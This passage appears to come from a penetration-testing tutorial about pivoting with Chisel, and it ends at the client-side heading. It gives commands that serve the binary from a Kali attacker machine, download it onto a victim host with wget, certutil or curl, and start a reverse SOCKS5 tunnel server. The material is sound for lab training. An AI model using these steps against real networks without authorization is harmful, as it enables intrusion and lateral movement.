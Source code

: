 <pre class="language-bash"><code class="lang-bash"><strong>#Kali
</strong><strong>python3 -m http.server 80 #on attacker machine, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong>ssh ubuntu@&#x3C;t1_nat1> #access to target 1
wget http://&#x3C;kali_nat1>/chisel #download chisel (if victim machine has Linux OS)
certutil -urlcache -split -f http://&#x3C;kali_nat1>/chisel #download chisel (if victim machine has Windows OS)
chmod +x chisel #give execution permission
</code></pre>

or transferring using **SSH** via:

```bash
scp chisel kali@<t1_nat1>:/tmp #copy via ssh on /tmp victim machine directory 
chmod +x chisel #give execution permission (do it on both machines) 
```

or transferring using C**url**:

```bash
curl <kali_nat1>/chisel -o chisel
```

Finally, we can establish connection between attacker (Kali) and victim using chisel (Target 1):

#### Attacker Machine / Server

Solution 1 (i suggest it)

```bash
./chisel server --reverse -p 33 #on Kali
```

Solution 2

```bash
./chisel server --socks5 --reverse #on Kali
```

* PORT = port for the Chisel traffic
* socks5 = to setup a SOCKS5 proxy
* reverse = to tell Chisel to wait for a connection from a client

<div align="left">

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

</div>

#### Victim Machine / Client&#x20;
